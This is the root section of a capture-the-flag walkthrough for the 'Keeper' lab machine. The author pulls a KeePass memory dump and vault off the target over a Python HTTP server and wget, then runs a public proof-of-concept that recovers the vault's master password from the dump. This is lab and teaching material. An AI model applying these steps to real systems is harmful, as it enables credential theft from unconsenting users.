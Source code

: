 # Root
Like mentioned in the ticket is a zip folder in lnorgaard home folder that contained a keepass dump: 
```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

I transferred the file over to my machine via a `python3` webserver, its a pretty big file so be patient. 
```
lnorgaard@keeper:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...


┌──(kali㉿kali)-[~/htb/keeper]
└─$ wget 10.10.11.227:8080/RT30000.zip                                    
--2024-02-11 00:27:54--  http://10.10.11.227:8080/RT30000.zip
Connecting to 10.10.11.227:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 87391651 (83M) [application/zip]
Saving to: ‘RT30000.zip’

RT30000.zip                             100%[============================================================================>]  83.34M   921KB/s    in 89s     

2024-02-11 00:29:23 (962 KB/s) - ‘RT30000.zip’ saved [87391651/87391651]
```

After unzipping the file we are left with dump as well as the keepass vault.
```
┌──(kali㉿kali)-[~/htb/keeper]
└─$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx 
```

Last year a vulnerability that came out where we can extract the master password from a dump file. Using [this](https://github.com/vdohney/keepass-password-dumper) POC we can extract the master password.
```
git clone https://github.com/vdohney/keepass-password-dumper.git
cd keepass-password-dumper
```

The exploit/tool is written in `dotnet` and `dotnet` can be a little finicky so I'll spin up a docker container to run the exploit in. 
```
docker run --rm -it -v $(pwd):/data mcr.microsoft.com/dotnet/sdk:7.0.100 
```

Next we can run the exploit and we get a weird password of `dgrød med fløde`
```
┌──(kali㉿kali)-[~/htb/keeper]
└─$ sudo docker run --rm -it -v $(pwd):/zon mcr.microsoft.com/dotnet/sdk:7.0.100                            
root@41ef308aa921:/# cd zon/keepass-password-dumper/                      
root@41ef308aa921:/zon/keepass-password-dumper# dotnet run ../KeePassDumpFull.dmp 

[snip]
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
